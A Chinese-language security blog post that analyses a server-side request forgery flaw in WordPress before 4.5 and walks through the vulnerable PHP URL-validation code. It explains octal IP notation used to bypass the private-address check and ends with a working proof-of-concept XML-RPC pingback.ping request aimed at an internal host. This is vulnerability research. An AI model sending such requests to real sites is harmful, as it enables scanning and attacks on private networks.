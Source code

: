 ```yaml
---
title: wordpress SSRF <4.5
date: 2016-08-19 15:05:19
tags: 
 - 漏洞分析
categories: codereview
---
```


### 概述

前几天，wordpress爆出一个SSRF的漏洞，跟进一下，查阅了一下，网上并没有详细的利用方式。以前也没怎么接触过wordpress，看了一下受影响的代码，记录一下过程。
<!-- more -->

### ip地址的几种表示方式

ip地址域名有多种表示方式，浏览器都能识别出来。

###### 常见的ip地址域名表示方法

- 点分十进制表示法，例如192.168.1.2
- 二进制表示法例如11000000101010000000000100000010，表示192.168.1.2

###### 非常见ip地址域名表示方法

- 整数型：将上述的二进制直接转换成整数3232235778，浏览器通过访问http://3232235778 解析为192.168.1.2，除此之外还可以通过公式`192*256^3+168*256^2+1*256+2=3232235778`换算
- 八进制型：将IP 192.168.1.2换成8进制0300.0250.01.02，在前面加上0表示8进制
- 十六进制型：将IP 192.168.1.2换成16进制0xc0.0xA8.1.2，在前面加上0x表示16进制
- 混合型：即以上的几种方式的结合，0300.0xA8.1.0x02

下面就是通过八进制绕过检测。

### 代码详情

漏洞成因处508 `wp_http_validate_url` 函数
```php
......
if ( ! $same_host ) {
		$host = trim( $parsed_url['host'], '.' );
		if ( preg_match( '#^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$#', $host ) ) {
			$ip = $host;
		} else {
			$ip = gethostbyname( $host );
			if ( $ip === $host ) // Error condition for gethostbyname()
				$ip = false;
		}
		if ( $ip ) {
			$parts = array_map( 'intval', explode( '.', $ip ) );
			if ( 127 === $parts[0] || 10 === $parts[0] || 0 === $parts[0]
				|| ( 172 === $parts[0] && 16 <= $parts[1] && 31 >= $parts[1] )
				|| ( 192 === $parts[0] && 168 === $parts[1] )
			) {
        ......
```
这里的代码通过正则表达式`^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$`判断ip是否合法，如果不合法则通过网络获取ip的值。
下面的if判断则是用来防止给的url为内网ip，但是上述的正则表达式可以通过8进制绕过内网限制。
```php
if ( empty( $parsed_url['port'] ) )
		return $url;

	$port = $parsed_url['port'];
	if ( 80 === $port || 443 === $port || 8080 === $port )
		return $url;
```
再接下来可以看到程序又对端口做了限制，只能扫描80,443,8080端口。
综上所述，通过8进制绕过ip判断，可以扫描内网的80,443,8080
找一下调用的位置,可以找到class-wp-xmlrpc-server.php通过wp_safe_remote_get调用了get函数，get函数使用了wp_http_validate_url，从而造成ssrf
### 利用
利用的方式为通过xmlrpc.php中pingback.ping功能来调用这个函数。
POC
```
POST /cms/wordpress/wp442/xmlrpc.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 321

<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://012.10.10.111:8080/testvul</string></value></param><param><value><string>http://localhost/cms/wordpress/wp442/2016/08/19/hello-world/</string></value></param>
</params>
</methodCall>
```
这里设置10.10.10.111为受害者
![image](http://blog.0kami.cn/img/wordpress_ssrf_4_4_2/wordpress-ssrf.png)
### 总结
在测试中发现只能对10.x.x.x的内网ip进行利用，因为正则的原因至多只能有3位数字，一位需要为0来表示8进制，所以利用只有10,并且只能扫描80,443,8080端口。由于利用中不回显，也很难确定是否成功利用。所以这个洞可能危害比较小（太菜了，想不到其他的利用方式，有其他的利用方式记得分享啊！！！）
还有一种利用就是开启xmlrpc的wordpress站可以被通过pingback.ping方法来DDOS，这个以前就有人提出来了。
## 参考
http://xlab.baidu.com/wordpress/
https://virusdefender.net/index.php/archives/733/


